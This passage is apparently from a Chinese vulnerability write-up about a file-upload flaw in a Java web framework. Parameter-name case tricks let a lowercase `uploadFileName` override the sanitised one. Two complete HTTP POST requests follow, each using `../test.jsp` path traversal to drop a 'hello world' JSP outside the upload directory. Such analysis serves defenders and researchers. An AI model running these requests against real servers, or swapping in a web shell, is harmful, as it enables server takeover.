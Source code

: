 `acceptableParameters`是TreeMap类型，其大小写敏感，且会根据Key的ASCII值的大小升序排序，因此如果将请求表单中的name（例如Upload）大写，同时传入一个小写的`uploadFileName` 参数，使得`HttpParameters`同时存在`uploadFileName`和`UploadFileName`。而在参数绑定过程中属性名会被`capitalizeBeanPropertyName`处理，即abc-->Abc，因此`uploadFileName`会被赋值两次，最终的值是小写的参数。

**利用方式：**

```java
POST /index.action?fileFileName=../test.jsp HTTP/1.1
Host: 10.180.99.132:8083
Content-Length: 219
Cache-Control: max-age=0
Origin: http://10.180.99.132:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfub1wmPAAJalxkQM
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.180.99.132:8083/index.action
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=A933E378FA2FAB88119CAB64076DA55E
Connection: close

------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="File"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryfub1wmPAAJalxkQM--
```

或

```java
POST /index.action HTTP/1.1
Host: 10.180.99.132:8083
Content-Length: 329
Cache-Control: max-age=0
Origin: http://10.180.99.132:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfub1wmPAAJalxkQM
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.180.99.132:8083/index.action
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=A933E378FA2FAB88119CAB64076DA55E
Connection: close

------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="File"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="fileFileName"

../test.jsp
------WebKitFormBoundaryfub1wmPAAJalxkQM--
```